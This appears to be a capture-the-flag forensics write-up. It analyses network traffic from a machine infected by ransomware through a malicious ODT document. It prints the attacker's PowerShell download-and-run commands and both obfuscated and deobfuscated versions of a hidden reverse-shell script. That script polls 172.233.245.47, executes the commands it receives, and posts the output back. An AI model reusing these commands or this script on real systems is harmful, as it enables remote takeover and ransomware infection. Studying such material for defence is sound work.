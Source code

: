 | No  | Time                      | Source        | Destination     | Protocol | Length | Info                                            |
|-----|---------------------------|---------------|-----------------|----------|--------|-------------------------------------------------|
| 4   | 2024-04-29 17:01:02.424191| 10.0.2.15     | 172.233.245.47  | HTTP     | 463    | GET /evil.odt HTTP/1.1                          |
| 16  | 2024-04-29 17:01:02.444894| 172.233.245.47| 10.0.2.15       | HTTP     | 1026   | HTTP/1.0 200 OK (application/vnd.oasis.opendocument.text) |
| 41  | 2024-04-29 17:01:09.175562| 10.0.2.15     | 172.233.245.47  | HTTP     | 128    | GET /rshell.ps1 HTTP/1.1                        |
| 44  | 2024-04-29 17:01:09.185433| 172.233.245.47| 10.0.2.15       | HTTP     | 753    | HTTP/1.0 200 OK                                 |
| 52  | 2024-04-29 17:01:09.751407| 10.0.2.15     | 172.233.245.47  | HTTP     | 283    | GET /35b503/DESKTOP-QS9TQJ6/alfred HTTP/1.1     |
| 56  | 2024-04-29 17:01:09.760867| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/javascript)               |
| 63  | 2024-04-29 17:01:09.799216| 10.0.2.15     | 172.233.245.47  | HTTP     | 260    | GET /6f7bab HTTP/1.1                            |
| 66  | 2024-04-29 17:01:09.809726| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/javascript)               |
| 469 | 2024-04-29 17:01:21.105335| 10.0.2.15     | 172.233.245.47  | HTTP     | 222    | GET /Backup.exe HTTP/1.1                         |
| 676 | 2024-04-29 17:01:21.165794| 172.233.245.47| 10.0.2.15       | HTTP     | 554    | HTTP/1.0 200 OK (application/x-msdos-program)   |
| 687 | 2024-04-29 17:01:21.327675| 10.0.2.15     | 172.233.245.47  | HTTP     | 329    | POST /a17472 HTTP/1.1                           |
| 690 | 2024-04-29 17:01:21.337967| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/plain)                    |
| 697 | 2024-04-29 17:01:22.360039| 10.0.2.15     | 172.233.245.47  | HTTP     | 260    | GET /6f7bab HTTP/1.1                            |
| 700 | 2024-04-29 17:01:22.369993| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/javascript)               |
| 752 | 2024-04-29 17:01:26.918743| 10.0.2.15     | 23.214.205.2    | HTTP     | 281    | GET / HTTP/1.1                                  |
| 754 | 2024-04-29 17:01:26.944501| 23.214.205.2  | 10.0.2.15       | HTTP     | 317    | HTTP/1.1 304 Not Modified                       |
| 758 | 2024-04-29 17:01:26.960238| 10.0.2.15     | 95.100.133.156  | HTTP     | 336    | GET /msdownload/update/v3/static/trustedr/en/authrootstl.cab?e501b8abfc88632c HTTP/1.1 |
| 760 | 2024-04-29 17:01:26.970012| 95.100.133.156| 10.0.2.15       | HTTP     | 322    | HTTP/1.1 304 Not Modified                       |
| 766 | 2024-04-29 17:01:27.470652| 10.0.2.15     | 172.233.245.47  | HTTP     | 260    | GET /6f7bab HTTP/1.1                            |
| 769 | 2024-04-29 17:01:27.480563| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/javascript)               |
| 802 | 2024-04-29 17:01:29.613179| 10.0.2.15     | 172.233.245.47  | HTTP     | 1380   | POST /a17472 HTTP/1.1 (application/x-www-form-urlencoded) |
| 806 | 2024-04-29 17:01:29.623602| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/plain)                    |
| 813 | 2024-04-29 17:01:30.640539| 10.0.2.15     | 172.233.245.47  | HTTP     | 260    | GET /6f7bab HTTP/1.1                            |
| 816 | 2024-04-29 17:01:30.650458| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/javascript)               |
| 866 | 2024-04-29 17:01:34.858748| 10.0.2.15     | 172.233.245.47  | HTTP     | 1186   | POST /a17472 HTTP/1.1 (application/x-www-form-urlencoded) |
| 870 | 2024-04-29 17:01:34.869118| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/plain)                    |
| 879 | 2024-04-29 17:01:35.881230| 10.0.2.15     | 172.233.245.47  | HTTP     | 260    | GET /6f7bab HTTP/1.1                            |
| 882 | 2024-04-29 17:01:35.892206| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/javascript)               |
| 1050| 2024-04-29 17:01:43.182040| 10.0.2.15     | 172.233.245.47  | HTTP     | 931    | POST /a17472 HTTP/1.1 (application/x-www-form-urlencoded) |
| 1054| 2024-04-29 17:01:43.192272| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/plain)                    |
| 1061| 2024-04-29 17:01:44.216835| 10.0.2.15     | 172.233.245.47  | HTTP     | 260    | GET /6f7bab HTTP/1.1                            |
| 1064| 2024-04-29 17:01:44.226917| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/javascript)               |
| 1232| 2024-04-29 17:01:57.696368| 10.0.2.15     | 172.233.245.47  | HTTP     | 381    | POST /a17472 HTTP/1.1 (application/x-www-form-urlencoded) |
| 1236| 2024-04-29 17:01:57.706307| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/plain)                    |
| 1243| 2024-04-29 17:01:58.712596| 10.0.2.15     | 172.233.245.47  | HTTP     | 260    | GET /6f7bab HTTP/1.1                            |
| 1246| 2024-04-29 17:01:58.722944| 172.233.245.47| 10.0.2.15       | HTTP     | 60     | HTTP/1.0 200 OK (text/javascript)               |


iwr http://172.233.245.47/Backup.exe -o \Users\alfred\AppData\Local\Temp\backup.exe
gci \Users\alfred\AppData\Local\Temp\backup.exe
Get-FileHash \Users\alfred\AppData\Local\Temp\backup.exe
\Users\alfred\AppData\Local\Temp\backup.exe
del \Users\alfred\AppData\Local\Temp\backup.exe
gci \Users\alfred\AppData\Local\Temp\backup.exe

Directory: C:\Users\alfred\AppData\Local\Temp


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         4/29/2024   7:01 PM         256512 backup.exe


Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          A3B923CCDA536816546FBD7E864384C32642090F494AE0C136B727412CF2C6DC       C:\Users\alfred\AppData\Local...


[*] encrypting file: "\\Users\\alfred\\Documents\\flag.txt"
[*] encrypting file: "\\Users\\alfred\\Pictures\\armor.jpg"
[*] encrypting file: "\\Users\\alfred\\Pictures\\links.jpg"
[*] encrypting file: "\\Users\\alfred\\Pictures\\server.png"


Cannot find path 'C:\Users\alfred\AppData\Local\Temp\backup.exe' because it does not exist.

| No  | Time                      | Source        | Destination     | Protocol | Length | Info                                            |
|-----|---------------------------|---------------|-----------------|----------|--------|-------------------------------------------------|
| 4   | 2024-04-29 17:01:02.424191| 10.0.2.15     | 172.233.245.47  | HTTP     | 463    | GET /evil.odt HTTP/1.1                          |
| 41  | 2024-04-29 17:01:09.175562| 10.0.2.15     | 172.233.245.47  | HTTP     | 128    | GET /rshell.ps1 HTTP/1.1                        |                             |


```powershell
iwr http://172.233.245.47/Backup.exe -o
```

| No  | Time                      | Source        | Destination     | Protocol | Length | Info                                            |
|-----|---------------------------|---------------|-----------------|----------|--------|-------------------------------------------------|
| 469 | 2024-04-29 17:01:21.105335| 10.0.2.15     | 172.233.245.47  | HTTP     | 222    | GET /Backup.exe HTTP/1.1                        |
| 676 | 2024-04-29 17:01:21.165794| 172.233.245.47| 10.0.2.15       | HTTP     | 554    | HTTP/1.0 200 OK (application/x-msdos-program)   |

```powershell
gci \Users\alfred\AppData\Local\Temp\backup.exe
```

Directory: C:\Users\alfred\AppData\Local\Temp
| Mode   | LastWriteTime       | Length | Name       |
|--------|---------------------|--------|------------|
| -a---- | 4/29/2024   7:01 PM | 256512 | backup.exe |

```powershell
Get-FileHash \Users\alfred\AppData\Local\Temp\backup.exe
```

| Algorithm | Hash | Path |
|-----------|------|------|
| SHA256 | A3B923CCDA536816546FBD7E864384C32642090F494AE0C136B727412CF2C6DC | C:\Users\alfred\AppData\Local... |

```powershell
\Users\alfred\AppData\Local\Temp\backup.exe
```

```markdown
[*] encrypting file: "\\Users\\alfred\\Documents\\flag.txt"
[*] encrypting file: "\\Users\\alfred\\Pictures\\armor.jpg"
[*] encrypting file: "\\Users\\alfred\\Pictures\\links.jpg"
[*] encrypting file: "\\Users\\alfred\\Pictures\\server.png"
```

```powershell
del \Users\alfred\AppData\Local\Temp\backup.exe
```

```powershell
gci \Users\alfred\AppData\Local\Temp\backup.exe
```

Cannot find path 'C:\Users\alfred\AppData\Local\Temp\backup.exe' because it does not exist.



Documents
Pictures
Downloads
Desktop

.docx
.txt
.png
.jpg
.jpeg

sTAR'T-prO'ceSS $PSHOME\powershell.exe -arGUmeNtLISt {$8241b7="None";$b85ef='17'+'2.233.245.47:80'+'80';$b5e0f='35b503-6f7b'+'a'+'b-a1'+'74'+'72';$585e='http'+':'+'/'+'/';$f0=i'RM' -USeBAsIcpARsInG -urI $585e$b85ef/35b503/$env:CoMPUTeRNaMe/$env:USerName -HEaDERs @{"Authorization"=$b5e0f};for (;;){$f=(i'RM' -USeBAsIcpARsInG -urI $585e$b85ef/6f7bab -HEaDERs @{"Authorization"=$b5e0f});if ($f -nE ('None')) {$c51eb=I'eX' $f -ErRoRAcTIoN s'TOP' -eRRORvAriABLE ec7236;$c51eb=OuT-s'tri'Ng -iNPutoBJeCt $c51eb;$7ab71=i'RM' -urI $585e$b85ef/a17472 -methOd POST -HEaDERs @{"Authorization"=$b5e0f} -body ([sYstem.TEXt.EncODiNG]::utF8.geTbyTes($ec7236+$c51eb) -JoIn ' ')} s'lEe'p 0.8}} -WIndowStYlE H'IDD'EN

START-process $PSHOME\powershell.exe -argumentlist {
    $none = "None"
    $server = '172.233.245.47:8080'
    $auth_key = '35b503-6f7bab-a17472'
    $protocol = 'http://'
    $response = Invoke-WebRequest -UseBasicParsing 
    -Uri "$protocol$server/35b503/$env:COMPUTERName/$env:UserName" 
    -Headers @{"Authorization"= $auth_key}
   
    for (;;) {
        $response = Invoke-WebRequest -UseBasicParsing 
        -Uri "$protocol$server/6f7bab" 
        -Headers @{"Authorization"= $auth_key}
       
        if ($response -ne $none) {
            $output = Invoke-Expression $response -ErrorAction Stop -ErrorVariable ec7236
            $output -OutString | foreach {
                $request = Invoke-WebRequest -UseBasicParsing -Uri "$protocol$server/a17472" 
                -Method POST -Headers @{"Authorization"= $auth_key} 
                -Body ([System.Text.Encoding]::UTF8.GetBytes($ec7236 + $_) -Join ' ')
            }
        }
       
        Start-Sleep -Seconds 0.8
    }
} -WindowStyle Hidden
